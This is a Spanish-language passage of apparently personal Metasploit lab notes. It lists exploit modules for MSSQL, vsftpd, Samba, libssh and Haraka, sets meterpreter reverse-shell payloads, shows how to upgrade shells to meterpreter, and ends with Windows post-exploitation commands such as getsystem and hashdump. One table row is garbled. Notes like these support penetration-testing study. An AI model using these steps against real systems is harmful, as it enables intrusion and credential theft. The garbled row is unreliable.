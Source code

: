 En la maquina en la que hemos cargado el .exe lo ejecutamos con `.\meterprteter.exe`

Y obtendremos una sesión de meterpreter en la nueva pestaña con el multi/handler


#### MSSQL

| MODULO                                     | FUNCION           | Opciones                                        | Wordlist |
| ------------------------------------------ | ----------------- | ----------------------------------------------- | -------- |
| *exploit/windows/mssql/mssql_clr_payload * | Explotacion MSSQL | set PAYLOAD windows/x64/meterpreter/reverse_tcp |          |


#### VSFTPD

| MODULO                                 | FUNCION            | Opciones | Wordlist |
| -------------------------------------- | ------------------ | -------- | -------- |
| *exploit/unix/ftp/vsftpd_234_backdoor* | Explotación VSFTPD |          |          |
Una vez obtenida la sesion la ponemos en backgorund con `ctrl + z` y usamos el modulo.
`use post/multi/manage/shell_to_meterpreter`


#### SAMBA

| MODULO                                  | FUNCION           | Opciones | Wordlist |
| --------------------------------------- | ----------------- | -------- | -------- |
| *exploit/linux/samba/is_known_pipename* | Explotacion SAMBA |          |          |
Una vez obtenida la sesión la ponemos en backgorund con `ctrl + z` y usamos el modulo.
`use post/multi/manage/shell_to_meterpreter`


#### LIBSHH SERVER

| MODULO                                      | FUNCION            | Opciones           | Wordlist |
| ------------------------------------------- | ------------------ | ------------------ | -------- |
| *auxiliaryu/scanner/ssh/libssh_auth_bypass* | Enumeracion LIBSSH | Set SPAWN_PTY true |          |
Se nos genera una sesión en background la cual debemos ejecutar usando `sessions <num>`
Una vez obtenida la sesión la ponemos en backgorund con `ctrl + z` y usamos el modulo.
`use post/multi/manage/shell_to_meterpreter`


#### SMTP

| MODULO                      | FUNCION            | Opciones                                                                                                     | Wordlist |
| --------------------------- | ------------------ | ---------------------------------------------------------------------------------------------------------- | -------- |
| *exploit/linux/smtp/haraka* | Enumeracion LIBS set SRVPORT 9898<br>set email_to root@attackdefense.test<br>set PAYLOAD linux/x64/meterpreter_reverse_http D  D  |          |



## POST EXPLOTATION WINDOWS

`sysinfo` ver información del sistema
`getuid` ver usuario actual en el sistema
`getprivs` ver privilegios actuales
`getsystem` elevar privilegios
`hashdump` volcado de hashes
`show_mount` ver discos
`ps` árbol de procesos
`migrate <num>` migrar a otros procesos de Windows
